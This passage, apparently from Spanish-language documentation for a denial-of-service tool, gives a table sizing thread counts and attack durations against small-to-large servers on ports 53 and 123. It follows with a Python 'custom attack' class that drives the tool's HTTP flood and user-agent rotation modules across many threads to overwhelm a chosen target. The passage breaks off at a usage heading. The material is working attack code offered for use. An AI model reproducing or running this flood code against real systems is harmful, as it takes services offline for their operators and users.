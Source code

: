 ### Parámetros Recomendados

| Objetivo | Threads | Duración | Puerto |
|----------|---------|----------|--------|
| Servidor pequeño | 100-300 | 60-120s | 53 |
| Servidor mediano | 300-1000 | 120-300s | 53/123 |
| Servidor grande | 1000-5000 | 300-600s | 53/123 |

---

## Uso Programático

### Ejemplo 1: Ataque Personalizado

```python
#!/usr/bin/env python3
from python.core.http_flood import HTTPFlood
from python.core.utils_proxy import ProxyUtils, UserAgentRotation
import threading
import time

class CustomAttack:
    def __init__(self, target, port, threads, duration):
        self.target = target
        self.port = port
        self.threads = threads
        self.duration = duration
        self.flood = HTTPFlood(target, port)
        self.ua_rotation = UserAgentRotation()
        self.start_time = None
        self.packets_sent = 0

    def attack_worker(self, worker_id):
        while time.time() - self.start_time < self.duration:
            try:
                self.flood.send_request()
                self.packets_sent += 1
                if self.packets_sent % 100 == 0:
                    print(f"[+] {self.packets_sent} paquetes enviados")
            except Exception as e:
                print(f"[-] Error en worker {worker_id}: {e}")
                time.sleep(1)

    def run(self):
        print(f"[*] Iniciando ataque contra {self.target}:{self.port}")
        print(f"[*] Threads: {self.threads}, Duración: {self.duration}s")
        
        self.start_time = time.time()
        threads = []
        
        for i in range(self.threads):
            t = threading.Thread(target=self.attack_worker, args=(i,))
            threads.append(t)
            t.start()
        
        for t in threads:
            t.join()
        
        print(f"[+] Ataque completado. Total: {self.packets_sent} paquetes")

# Uso
```